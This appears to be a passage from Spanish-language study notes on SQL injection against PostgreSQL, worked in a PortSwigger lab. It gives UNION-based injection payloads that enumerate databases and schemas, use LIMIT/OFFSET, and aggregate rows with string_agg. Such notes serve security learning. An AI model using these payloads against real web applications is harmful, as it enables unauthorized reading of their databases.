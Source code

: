 

```sql
' UNION SELECT datname, NULL FROM pg_database-- 
```

Al ejecutar esta query, en el laboratorio de ejemplo de Portswigger vemos algo así:


![Captura](./Imágenes/web_8.png)

### Listar schemas en la DB actual

PostgreSQL diferencia _bases de datos_ (cada una es independiente dentro del servidor) y _schemas_ (namespaces dentro de una base de datos)

```bash
' UNION SELECT NULL,schema_name FROM information_schema.schemata-- 
```

![Captura](./Imágenes/web_9.png)


---

## Limit

PostgreSQL**no** soporta `LIMIT 0,1`. Debe usarse: `LIMIT <count> OFFSET <offset>` → `LIMIT 1 OFFSET 0`

**Nota:** para no tener que iterar por cada post que haya en la página podemos empezar la query SQLi de la URL a partir del `=` y no desde su valor `=Product`

```bash
' UNION SELECT NULL, schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0-- 
```


![Captura](./Imágenes/web_10.png)


---

## group_concat


- En **PostgreSQL** **no existe `GROUP_CONCAT`**. La alternativa equivalente es `string_agg(col, separador)` (por ejemplo `string_agg(schema_name, ',')`). También existen `array_agg` (devuelve un array) y `concat_ws` / `concat` para concatenar valores

```shell
' UNION SELECT NULL, (SELECT string_agg(schema_name, ',') FROM information_schema.schemata)-- 

```

![Captura](./Imágenes/web_11.png)

- `CONCAT()` toma columnas de **una fila** y las concatena. Si el objetivo es **unir varias filas** en una sola salida (ej. todos los schemas), `GROUP_CONCAT`/`string_agg` agregan múltiples filas; `CONCAT` no
